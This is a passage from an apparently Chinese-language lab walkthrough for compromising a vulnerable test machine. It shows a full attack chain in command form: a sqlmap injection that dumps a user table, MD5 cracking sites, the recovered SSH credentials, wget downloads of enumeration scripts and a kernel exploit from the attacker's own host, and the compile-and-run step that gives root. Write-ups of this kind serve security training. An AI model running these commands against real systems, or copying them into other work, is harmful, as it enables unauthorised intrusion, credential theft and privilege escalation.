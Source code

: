 | last_name     | varchar(255)     |
| password      | varchar(50)      |
| phone         | varchar(20)      |
| pw_reset_code | char(32)         |
| username      | varchar(25)      |
+---------------+------------------+
-----

爆破字段内容：
sqlmap -u "http://10.211.55.42/jabcd0cs/ajax_udf.php?q=1&add_value=odm_user" --dbs --level=5 --risk=3 -D jabcd0cs --tables -T odm_user --dump



在线爆破：
https://hashkiller.co.uk/md5-decrypter.aspx
https://www.somd5.com/

获得账号密码：
webmin
webmin1980


6、SSH登录内核

ssh webmin@10.211.55.42
webmin1980

-------内核信息枚举：
python -m SimpleHTTPServer 8081
wget http://10.211.55.19:8081/linpeas.sh
wget http://10.211.55.19:8081/LinEnum.sh
chmod +x linpeas.sh
chmod +x LinEnum.sh
./linpeas.sh > 1.txt
./LinEnum.sh > 2.txt

-------
1）3.13.0-24-generic
2）vulnosadmin
3）Sudo version 1.8.9p5

---------------------
方法1：
#### 内核提权：
searchsploit linux 3.13.0
linux/local/37292.c
linux/local/37293.txt
cp /usr/share/exploitdb/exploits/linux/local/37292.c .
wget http://10.211.55.19:8081/37292.c
gcc 37292.c -o dayu
chmod +x dayu
./dayu
获得root权限！！！
